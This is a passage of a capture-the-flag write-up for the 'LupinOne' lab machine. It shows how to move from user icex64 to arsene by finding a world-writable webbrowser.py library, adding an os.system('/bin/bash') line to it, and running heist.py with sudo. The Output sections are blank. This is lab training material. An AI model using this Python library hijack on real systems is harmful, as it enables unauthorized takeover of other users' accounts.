





4.3 Get the shell of the user "arsene"
1. Show the “heist.py” file code.
icex64@LupinOne:~$cat /home/arsene/heist.py
Output:

It doesn’t do anything that would give us the shell of the user “arsene”. However, we can check the library “webbrowser”.
2. Check the writable files.
icex64@LupinOne:~$find / -writable ! -path '/proc*' ! -path '/sys*' ! -path '/dev*' -exec ls -al {} \; 2>/dev/null
Output:

The library “webbrowser.py” is writable.
3. Edit the “webbrowser.py” file and add the line “os.system("/bin/bash").
Output:

4. Execute a “heist.py” binary. This file will use the “webbrowser.py” library and the the shell will be executed.
icex64@LupinOne:/usr/lib/python3.9$sudo -u arsene python3.9 /home/arsene/heist.py
Output:

You have an “arsene” shell.
5. Show information about “arsene” user.
arsene@LupinOne:/usr/lib/python3.9$id
Output:
